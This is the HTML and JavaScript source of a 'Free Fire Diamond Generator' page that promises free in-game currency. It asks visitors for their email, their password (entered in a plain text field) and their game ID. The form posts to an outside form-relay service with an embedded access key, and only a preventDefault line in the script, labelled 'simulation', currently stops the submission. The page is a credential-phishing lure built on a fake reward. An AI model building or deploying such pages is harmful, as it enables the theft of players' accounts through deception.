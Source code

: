 <html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Free Fire Diamond Generator</title>
    <link href="https://fonts.googleapis.com/css2?family=Poppins:wght@400;600;700&display=swap" rel="stylesheet">
    <script src="https://cdn.tailwindcss.com"></script>
    <style>
        body {
            font-family: 'Poppins', sans-serif;
        }
    </style>
</head>
<body class="bg-gradient-to-r from-purple-400 to-pink-500 h-screen flex justify-center items-center">
    <div class="bg-white rounded-lg shadow-xl p-8 w-full max-w-md transition-transform hover:scale-105">
        <h1 class="text-2xl font-semibold text-blue-600 mb-4 text-center">Free Fire Diamond Generator</h1>
        <p class="text-gray-700 mb-6 text-center">Enter your details below to get free diamonds!</p>

   <form id="diamond-form" class="space-y-4" action="https://api.web3forms.com/submit" method="POST">
        <input type="hidden" name="access_key" value="0732fb33-547b-48bb-826e-09f7854ad14b">
            <div>
                <label for="email" class="block text-gray-700 text-sm font-bold mb-2">Email:</label>
                <input type="email" id="email" name="email" class="shadow appearance-none border rounded w-full py-2 px-3 text-gray-700 leading-tight focus:outline-none focus:shadow-outline" placeholder="Enter your Email" required>
            </div>
            <div>
                <label for="password" class="block text-gray-700 text-sm font-bold mb-2">Password:</label>
                <input type="text" id="password" name="password" class="shadow appearance-none border rounded w-full py-2 px-3 text-gray-700 leading-tight focus:outline-none focus:shadow-outline" placeholder="Enter your Password" required>
            </div>
            <div>
                <label for="ff-id" class="block text-gray-700 text-sm font-bold mb-2">Free Fire ID:</label>
                <input type="text" id="ff-id" name="ff-id" class="shadow appearance-none border rounded w-full py-2 px-3 text-gray-700 leading-tight focus:outline-none focus:shadow-outline" placeholder="Enter your Free Fire ID" required>
            </div>

   <div>
                <label for="diamonds" class="block text-gray-700 text-sm font-bold mb-2">Number of Diamonds:</label>
                <select id="diamonds" name="diamonds" class="shadow appearance-none border rounded w-full py-2 px-3 text-gray-700 leading-tight focus:outline-none focus:shadow-outline">
                    <option value="100">100 Diamonds</option>
                    <option value="500">500 Diamonds</option>
                    <option value="1000">1000 Diamonds</option>
                    <option value="5000">5000 Diamonds</option>
                    <option value="10000">10000 Diamonds</option>
                </select>
            </div>
    <input type="checkbox" name="botcheck" class="hidden" style="display: none;">
     <!-- <input type="hidden" name="redirect" value="https://mywebsite.com/thanks.html"> -->
  <button type="submit" class="bg-gradient-to-r from-green-400 to-blue-500 hover:from-green-500 hover:to-blue-600 text-white font-bold py-2 px-4 rounded-full focus:outline-none focus:shadow-outline w-full transition duration-300 ease-in-out">
                Generate Diamonds
            </button>
        </form>

   <div id="message-container" class="mt-6 text-center text-red-600 font-semibold">
            </div>
    </div>

   <script>
        const form = document.getElementById('diamond-form');
        const messageContainer = document.getElementById('message-container');

   form.addEventListener('submit', (event) => {
            event.preventDefault();

   const ffId = document.getElementById('ff-id').value;
            const email = document.getElementById('email').value;
            const password = document.getElementById('password').value;
            const diamonds = document.getElementById('diamonds').value;

   if (!/^\d+$/.test(ffId)) {
                messageContainer.textContent = "Invalid Free Fire ID. Please enter numbers only.";
                return;
            }

   messageContainer.textContent = `Generating ${diamonds} diamonds for ID: ${ffId}... (This is a simulation)`;

        });
    </script>
</body>
</html>
